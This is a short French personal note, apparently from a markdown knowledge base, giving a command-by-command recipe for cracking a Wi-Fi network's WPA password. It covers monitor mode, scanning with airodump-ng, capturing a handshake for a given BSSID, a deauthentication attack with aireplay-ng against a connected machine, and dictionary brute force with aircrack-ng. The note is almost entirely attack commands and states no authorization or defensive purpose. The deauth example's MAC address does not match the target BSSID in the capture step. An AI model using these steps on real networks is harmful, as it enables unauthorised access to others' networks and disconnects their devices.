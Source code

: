 ```yaml
---
id: wifi_crack
created_date: 16/02/2023
updated_date: 16/02/2023
type: note
---
```


#  wifi_crack
- **🏷️Tags** :  #02-2023 #wifi #crack #tools 

## 📝 Notes

### Mettre sa carte en mode monitor


```bash
sudo ifconfig wlan1 down
sudo iwconfig wlan1 mode monitor
sudo ifconfig wlan1 up
```

pour tester si sa carte est compatible utiliser la commande :


```bash
sudo aireplay-ng --test wlan1
```

### Faire un scan du réseaux 

- dans un premier temps taper la commande 

```bash
sudo airodump-ng wlan1
```

- récupérer le nom de l'interface réseaux qui vous intéresse
- ainsi que son BSSID et que son numéro de channel ( bien vérifier son type d' ENC ).
### lancer l'attaque
on souhaite ici récupérer le handshake et pour cela on va avoir besoin du BSSID et du channel.

```bash

sudo airodump-ng -c 6 --bssid 44:D4:54:ED:F9:60 -w ~/Bureau wlan1

```

pour accélérer les choses on va lancer en même temps une attaque de Dauth contre la machine. ( sinon c'est gavé long ).

```bash
sudo aireplay-ng -0 20 -a E4:9E:12:89:FE:D4  wlan1
```

une fois que le handshake est obtenue et qu'une certaine quantité de requête aussi passer à l'étape suivante.

### crack et brutforce


```bash
aircrack-ng -a2 -b <BSSID> -w /chemi/du/dico.txt ./chemi/du/fichier/cap/enregistrer.cap

```



## Questions/Thoughts


## 🔗 Links
- 